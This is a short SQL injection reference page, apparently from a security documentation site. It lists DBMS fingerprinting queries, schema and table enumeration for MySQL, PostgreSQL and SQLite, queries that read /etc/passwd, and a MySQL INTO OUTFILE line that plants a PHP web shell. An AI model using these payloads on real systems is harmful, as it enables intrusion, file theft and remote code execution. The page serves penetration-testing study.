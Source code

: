```yaml
---
title: "SQL Injection"
description: "Overview of SQL Injection"
lead: "Overview of SQL Injection"
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "topics"
weight: 620
toc: true
---
```


## DMBS Identification

### Version

| DBMS        | Query                      | Output (example) |
| ----------- | -------------------------- | ---------------- |
| SQLite      | `SELECT sqlite_version()`  | 3.42.0           |
| MySQL       | `SELECT VERSION()`         | 5.7.38           |
| PostgreSQL  | `SELECT version()`         | PostgreSQL 14.8 ... |

### SQL Functions

| PostgreSQL          | SQLite              | MySQL               |
| ------------------- | ------------------- | ------------------- |
| `'a'\|\|'b'`        | `'a'\|\|'b'`        | `'a' 'b'`           |
| `POW(3,2)`          | `POW(3,2)`          | `POW(3,2)`          |
| `CHR(65)`           | `CHAR(65)`          | `CHAR(65)`          |
| `ASCII('A')`        | `UNICODE('A')`      | `ASCII('A')`        |
| `SUBSTR('abc',2,1)` | `SUBSTR('abc',2,1)` | `SUBSTR('abc',2,1)` |
| `PG_SLEEP(4)`       | *Unknown*           | `SLEEP(4)`          |

## Database enumeration

### MySQL

```
SELECT GROUP_CONCAT(schema_name,',') FROM information_schema.schemata;
SELECT GROUP_CONCAT(table_name,',') FROM information_schema.tables;
SELECT GROUP_CONCAT(column_name,',') FROM information_schema.columns WHERE table_name = 'users';
```

### PostgreSQL

```
SELECT string_agg(table_name,',') FROM information_schema.tables;
SELECT string_agg(table_name,',') FROM information_schema.columns WHERE table_name = 'users';
```

### SQLite

```
SELECT GROUP_CONCAT(tbl_name,',') FROM sqlite_master WHERE type='table' AND tbl_name NOT like 'sqlite_%';
SELECT sql FROM sqlite_master WHERE tbl_name='users';
SELECT GROUP_CONCAT(name,',') FROM PRAGMA_TABLE_INFO('users');
```

## File read/write & RCE

### PostgreSQL

```
select pg_ls_dir('.');
select pg_read_file('/etc/passwd');
```

### MySQL

```
SELECT LOAD_FILE('/etc/passwd');
SELECT '<?php system($_REQUEST[c]); ?>' INTO OUTFILE '/var/www/html/shell.php';
```
